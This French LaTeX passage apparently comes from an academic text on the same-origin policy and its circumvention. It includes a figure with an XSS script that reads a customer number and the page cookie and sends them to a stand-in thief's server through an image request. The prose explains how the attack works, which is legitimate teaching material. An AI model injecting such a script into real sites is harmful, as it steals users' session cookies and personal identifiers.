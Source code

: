 \begin{figure}[h]
	\centering
	\begin{lstlisting}
<script>
  // Vol du numero de client
  var numeroDuClient = document.getElementById('numClient').innerHTML;
  // Vol du cookie
  var cookieDuClient = document.cookie;
  // Requete contenant les informations volees :
  var requete = 'http://serveur-du-voleur.be/vol?client=' + numeroDuClient + '&cookie=' + cookieDuClient;
  // Envoi de la requete avec une image
  document.write("<img src='" + requete + "'/>");
</script>
	\end{lstlisting}
	\caption{\label{exemple_XSS}Un exemple d'attaque XSS pour voler des informations.}
\end{figure}
Quand le client va se rendre sur la page, son navigateur va automatiquement faire une requête vers le serveur du voleur. Son navigateur l'avertira seulement que l'image n'a pas été trouvée mais les informations auront été néanmoins transmises au voleur. Cette attaque nécessite un minimum de préparation car le voleur doit savoir quel est le nom ou l'ID de l'élément HTML qui affiche le numéro de client (dans l'exemple, "numClient").
Ceci est un premier exemple de violation du principe de même origine réalisé avec l'aide d'une faille XSS.
\newline

Il existe plusieurs moyens de contourner le principe de même origine. Le but de ce chapitre n'étant pas d'en faire une liste exhaustive, seuls quelques moyens seront expliqués.
Il faut également préciser que même si le principe était correctement implémenté au sein d'un navigateur, il n'empêcherait pas les violations de vie privée face à des sites coopérants. Ceci s'explique par le fait qu'il existe une multitude de techniques simples allant des redirections jusqu'aux liens inter-sites pouvant être utilisées dans le but de transmettre des données entre des sites. Avec de tels échanges, les sites coopérants sont dans la capacité de constituer un profil inter-domaine des activités de leurs visiteurs.


